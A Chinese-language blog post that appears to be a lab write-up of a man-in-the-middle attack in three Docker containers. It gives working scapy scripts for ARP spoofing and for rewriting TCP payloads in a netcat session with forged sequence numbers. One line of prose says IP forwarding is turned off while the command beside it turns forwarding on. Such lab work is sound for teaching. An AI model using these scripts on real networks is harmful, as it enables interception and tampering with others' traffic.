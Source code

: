 ```yaml
---
layout:     post
title:      arp欺骗+TCP序列号攻击
subtitle:   arp欺骗+TCP序列号攻击
date:       2023-04-04
author:     xc
header-img: img/post-bg-ios9-web.jpg
catalog: true
tags:
    - linux
---
```

# arp欺骗+TCP序列号攻击

`1.实验环境`

任意两台相互能通信的机器HostA、HostB+一台攻击机HostM。

本文在Ubuntu上创建3个docker。

IP_A=“192.168.60.2”

IP_M=“192.168.60.3”

IP_B=“192.168.60.4”

MAC_A=‘02:42:c0:a8:3c:02’

MAC_M=‘02:42:c0:a8:3c:03’

MAC_B=‘02:42:c0:a8:3c:04’

`2.攻击对象`

攻击nc连接中，A向B发送数据的过程。

```
HostA nc监听333端口：nc -lv 333
HostB nc连接333端口：nc 192.168.60.2 333
```

`3.攻击目的`

将A向B发送的数据篡改为固定的字符串'U000011222_shandianchengzi\n'。

`4.最终效果`

![](https://img-blog.csdnimg.cn/d11e8e445e74451ca8d6745aafc1922f.png#pic_center)

## 实验步骤

### 实验环境搭建

利用docker搭建3台ubuntu服务器，并且指定ip，使其能相互ping通

1.搭建网卡

docker network create --subnet=192.168.60.0/24 --gateway=192.168.60.1 docker-intranet

2.指定网卡和IP

sudo docker run -it --name=HostA --hostname=HostA --net=docker-intranet --ip=192.168.60.2 --privileged "ubuntu" /bin/bash

sudo docker run -it --name=HostB --hostname=HostB --net=docker-intranet --ip=192.168.60.4 --privileged "ubuntu" /bin/bash

sudo docker run -it --name=HostM --hostname=HostM --net=docker-intranet --ip=192.168.60.3 --privileged "ubuntu" /bin/bash

并在其中安装nc和python环境

```
sed -i s@/archive.ubuntu.com/@/mirrors.aliyun.com/@g /etc/apt/sources.list

sed -i s@/security.ubuntu.com/@/mirrors.aliyun.com/@g /etc/apt/sources.list

apt-get clean

apt-get update

apt install net-tools

apt-get install vim

apt-get -y install netcat-traditional

update-alternatives --config nc
```

### ARP欺骗
首先，关闭ip转发：

```
sysctl net.ipv4.ip_forward=1
```

然后，对HostA、B进行ARP欺骗，在HostM上运行ARP欺骗程序：

```
from scapy.all import *
from time import *

IP_A    = "192.168.60.2"
IP_B    = "192.168.60.4"
MAC_M     = "02:42:c0:a8:3c:03"

print("SENDING SPOOFED ARP REQUEST......")

ether = Ether()
ether.dst = "ff:ff:ff:ff:ff:ff"
ether.src = "02:42:c0:a8:3c:03"

arp = ARP()
arp.psrc  = IP_B
arp.hwsrc = MAC_M
arp.pdst  = IP_A
arp.op = 1
frame1 = ether/arp
arp2 = ARP()
arp2.psrc = IP_A
arp2.hwsrc = MAC_M
arp2.pdst = IP_B
arp2.op = 1
frame2 = ether/arp2
while 1:
  sendp(frame1)
  sendp(frame2)
  sleep(5)
```
![](https://img-blog.csdnimg.cn/a0a7391707f44a76b4081956383b8d46.png#pic_center)

并在AB间建立nc即时对话。

HostA运行：nc -lp 333

HostB运行：nc 192.168.60.2 333

### TCP序列号攻击

Hostm作为中间人，记录HostA发给HostB的Seq号、HostB发给HostA的Ack号，HostM用A的字符串长度计算给HostA的ACK包中的Seq和Ack，用’U000011222_shandianchengzi\n’的长度计算给HostB的Seq号，就可以伪造正确的序列号。

```
from scapy.all import *
IP_A="192.168.60.2"
IP_B="192.168.60.4"
MAC_A='02:42:c0:a8:3c:02'
MAC_M='02:42:c0:a8:3c:03'
MAC_B='02:42:c0:a8:3c:04'
temp={'SEQ':0,'ACK':0,'LEN':0,'ACK2':0}
def spoof_pkt(pkt):
  try:
    if(pkt.src==MAC_M):
      return
    if(pkt[IP].src==IP_A and pkt[IP].dst==IP_B):
      pkt.src=MAC_M
      pkt.dst=MAC_B
      temp['LEN']=len(pkt[TCP].load)
      temp['SEQ']=pkt[TCP].seq
      if(temp['ACK2']): #new
        pkt[TCP].seq=temp['ACK2'] #new
      temp['ACK']=pkt[TCP].ack
      pkt[IP].len=79
      pkt[TCP].load='U000011222_shandianchengzi\n'
      pkt.show()
    elif(pkt[IP].src==IP_B and pkt[IP].dst==IP_A):
      pkt.src=MAC_M
      pkt.dst=MAC_A
      if(pkt[TCP].seq==temp['ACK']):
        temp['ACK2']=pkt[TCP].ack #new
        pkt[TCP].ack=temp['SEQ']+temp['LEN']
    del(pkt.chksum)
    del(pkt[TCP].chksum)
    #pkt.show()
    sendp(pkt)
  except Exception as e:
    print("[-] Error = "+str(e))
    if(pkt.type!=2054 and str(e)!="load"):
      pkt.show()
    try:
      sendp(pkt)
    except Exception as e2:
      pass

f= "host "+IP_A+" and host "+IP_B+" and tcp"
pkt = sniff(filter=f,iface='eth0', prn=spoof_pkt)
```

![](https://img-blog.csdnimg.cn/c69caf5088614280a5706c908659d41c.png#pic_center)

现象

![](https://img-blog.csdnimg.cn/d11e8e445e74451ca8d6745aafc1922f.png#pic_center)

